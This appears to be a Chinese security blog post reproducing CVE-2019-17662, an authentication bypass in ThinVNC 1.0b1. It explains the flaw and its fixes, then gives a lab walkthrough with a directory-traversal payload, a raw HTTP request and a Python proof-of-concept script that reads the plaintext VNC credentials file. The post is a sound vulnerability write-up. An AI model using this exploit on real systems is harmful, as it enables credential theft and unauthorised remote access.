

# ThinVnc-身份验证绕过(CVE-2019-17662) - g7y12 - 博客园

> 原文：[`www.cnblogs.com/dddjh/p/11896685.html`](https://www.cnblogs.com/dddjh/p/11896685.html)

# ThinVnc-身份验证绕过(CVE-2019-17662)

# 简介

ThinVNC 是一款以网页浏览器为基础设计的远端桌面连接工具，不局限用户端使用那种作业平台，都可以通过采用 HTML5 为标准的浏览器来达到远端控制。通过利用最新的网络技术如 AJAX，WebSockets 和 HTML5 等，ThinVNC 提供安全的，高性能的基于 web 的远程桌面访问。

# 影响范围

ThinVnc 1.0b1

# 漏洞成因

ThinVNC 使用基本身份验证对用户进行身份验证以访问 Web VNC 界面。部署 VNC 服务器时，将在服务器端设置要使用的凭据。没有运行 VNC 服务器的固定端口，当尝试使用错误的身份验证凭据进行多重验证时，它将引发 HTTP 401 错误。可以使用以下向量来绕开它：

```
/../../../../../../../../../windows/win.ini 
```

此目录遍历攻击向量使我们可以读取系统上的任何文件。我们可以使用相同的向量来窃取 VNC 客户端的凭据。窃取它们后，我们可以使用凭据来破坏 VNC 服务器。妥协后，我们可以通过终端访问 VNC 服务器。

# 修复方法

（1）禁止存储明文凭证

（2）切勿使用 HTTP 进行基本身份验证

# 环境搭建

1、测试环境

靶机：

windows 7 x64

IP:192.168.157.131

攻击机：
windows 10 X64
IP:192.168.1.115

2、下载 ThinVnc 客户端

*   [`sourceforge.net/projects/thinvnc/`](https://sourceforge.net/projects/thinvnc/)
    

3、解压 ThinVnc 到靶机,无需安装，直接打开 exe 文件，开启服务即可。


服务开启后根目录生成配置文件，存储着 vnc 的明文登录凭证


# 漏洞复现

1、访问 http://192.168.157.131:8080/进入 vnc 登录界面


2、接下来我们就可以构造 payload 来读取 ThinVnc 配置文件，payload 如下：

```
GET /xyz/../../ThinVnc.ini HTTP/1.1
Host: 192.168.157.131:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Authorization: Digest username="admin", realm="ThinVNC", nonce="4yTOn+9f5UCoxvEB71/lQA==", uri="/windows/win.ini", response="676e14e9f98fd8147521a329f3e3c6f4", opaque="WRYFjqkyGmRk8RVWldmvJSyiFcL09YpGvw", qop=auth, nc=00000003, cnonce="1ca209d91259e628"
Connection: close
Upgrade-Insecure-Requests: 1 
```


3、利用获取的口令，通过 vnc 直接连接到服务器上去

4、附 POC

```
#!/usr/bin/python3

import sys
import requests

def exploit(host,port):
    url = "http://" + host +":"+port+"/xyz/../../ThinVnc.ini"
    r = requests.get(url)
    body = r.text
    print(body.splitlines()[2])
    print(body.splitlines()[3])

def main():

    if(len(sys.argv)!=3):
        print("Usage:\n{} <host> <port>\n".format(sys.argv[0]))
        print("Example:\n{} 192.168.157.131 8080")
    else:
        port = sys.argv[2]
        host = sys.argv[1]
        exploit(host,port)

if __name__ == '__main__':
    main() 
```

# 参考链接：

*   [`sourceforge.net/projects/thinvnc/`](https://sourceforge.net/projects/thinvnc/)
*   [`redteamzone.com/ThinVNC/`](https://redteamzone.com/ThinVNC/)
*   [`packetstormsecurity.com/files/154896/ThinVNC-1.0b1-Authentication-Bypass.html`](https://packetstormsecurity.com/files/154896/ThinVNC-1.0b1-Authentication-Bypass.html)